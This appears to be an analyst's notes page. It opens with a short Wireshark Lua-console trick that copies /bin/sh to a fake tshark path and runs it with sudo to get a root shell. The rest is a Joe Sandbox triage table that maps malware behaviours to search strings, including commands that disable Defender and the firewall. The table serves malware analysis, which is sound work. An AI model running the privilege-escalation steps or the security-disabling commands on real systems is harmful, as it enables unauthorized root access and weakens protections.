 ```
sudo wireshark &
Tools -> Lua Console
os.execute("mkdir -p /user/bin")
os.execute("cp /bin/sh /user/bin/tshark")

sudo /user/bin/tshark
```

# Joe Sandbox
##Start at System Summary  

| Behavior                                                                                   | Search queries / things to grep for in the report                                                                                                                           |                              Joe Sandbox Signature Category |
| ------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------: |
| Attempts to get the victim to disable security protections                                 | `Disable`, `disable-defender`, `DisableAntiSpyware`, `Set-MpPreference -DisableRealtimeMonitoring`, `Stop-Service WinDefend`, `netsh advfirewall set allprofiles state off` | Lowering of HIPS / PFW / Operating System Security Settings |
| Deletes Microsoft Office-related registry keys                                             | `HKLM\\SOFTWARE\\Microsoft\\Office`, `HKCU\\Software\\Microsoft\\Office`, `RegDeleteValue`, `RegDeleteKey`, `NtDeleteKey`                                                   |                       Persistence and Installation Behavior |
| Creates registry keys associated with Microsoft Excel                                      | `Excel`, `Microsoft\\Office\\.*Excel`, `RegCreateKeyEx`, `RegSetValueEx`, `HKCU\\Software\\Microsoft\\Office`                                                               |                       Persistence and Installation Behavior |
| Creates any registry values                                                                | `RegSetValueEx`, `RegSetValue`, `NtSetValueKey`, `reg add`, `Set-ItemProperty`                                                                                              |                       Persistence and Installation Behavior |
| Drops RegAsm virus                                                                         | `regasm.exe`, `RegAsm`, dropped file name contains `regasm`, `CreateFile` -> `%TEMP%\\regasm*.exe`, PE write to disk                                                        |                                                   Spreading |
| Sends signals to force immediate program termination                                       | `TerminateProcess`, `ExitProcess`, `TerminateThread`, `taskkill`, `GenerateConsoleCtrlEvent`                                                                                |                             Malware Analysis System Evasion |
| Malware file is most likely programmed in C or C++                                         | Imports: `msvcrt`, `vcruntime`, `msvcp`, mangled symbols `_Z`, `__cplusplus`, `PE -> compiled with MSVC`                                                                    |                                              System Summary |
| Attempts to detect presence of the Mirai botnet                                            | `mirai`, `TELNET`, `port 23`, `2323`, `brute`, `telnet-scanner`, `high-rate connect attempts`                                                                               |                                                  Networking |
| Attempts to use a keylogger                                                                | `SetWindowsHookEx`, `WH_KEYBOARD_LL`, `GetAsyncKeyState`, `GetKeyState`, files named `keylog`, `WriteFile` to logs                                                          |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Attempts to copy clipboard contents                                                        | `OpenClipboard`, `GetClipboardData`, `CF_UNICODETEXT`, `Get-Clipboard`, `OleGetClipboard`                                                                                   |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Hooks registry keys or values to maintain persistence via autostart                        | `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`, `RunOnce`, `Winlogon`, `RegSetValueEx` writing to `Run`                                                          |                       Persistence and Installation Behavior |
| Possible Personal Firewall (PFW) or Host-based Intrusion Prevention System (HIPS) evasion  | `AmsiScanBuffer` patch, `EtwEventWrite` tampering, `NtProtectVirtualMemory`, `Unhook`, `IsDebuggerPresent`                                                                  |            HIPS / PFW / Operating System Protection Evasion |
| Executes or interacts with `splwow64.exe` (Windows system component)                       | process name `splwow64.exe`, `OpenProcess`/`CreateProcess` targeting `splwow64.exe`, `WriteProcessMemory` -> `splwow64.exe`                                                 |                                 Remote Access Functionality |
| Drops a portable executable file into `C:\\Windows` (drops only)                           | `CreateFile` / `WriteFile` / `MoveFile` -> `C:\\Windows\\.*\\.exe`, `CopyFile` to `C:\\Windows\\`                                                                           |                                                   Spreading |
| Looks for the name or serial number of a device                                            | `Win32_BIOS`, `SerialNumber`, `GetVolumeInformation`, `GetComputerName`, `DeviceIoControl`, `Model`, `Manufacturer`                                                         |             Language, Device and Operating System Detection |
| Attempts to obscure data (encoding, encryption, obfuscation)                               | `base64`, `Convert.FromBase64String`, `XOR`, `CryptEncrypt`, `BCryptEncrypt`, high-entropy blobs, long `xor` loops                                                          |                                            Data Obfuscation |
| Sends HTTP GET or POST requests without a User-Agent header                                | HTTP requests where `User-Agent:` missing or empty; raw socket `GET / HTTP/1.1` without `User-Agent` header                                                                 |                                                  Networking |
| Uses loops or repeated commands (e.g., pings) to delay execution or evade sandbox analysis | `Sleep(`, `NtDelayExecution`, `ping -n`, repeated `ping`, `for`/`while` loops with `Sleep(5000+)`                                                                           |                             Malware Analysis System Evasion |
| Attempts to override DNS resolution for a specific domain on the local machine             | writes to `C:\\Windows\\System32\\drivers\\etc\\hosts`, `Set-DnsClientServerAddress`, `reg add` DNS entries, `netsh interface ip add dns`                                   |                                                  Networking |
| Possible system shutdown behavior                                                          | `ExitWindowsEx`, `InitiateSystemShutdownEx`, `Shutdown`, `ExitProcess`, `CreateProcess` running `shutdown.exe /s /t 0`                                                      |            HIPS / PFW / Operating System Protection Evasion |

---

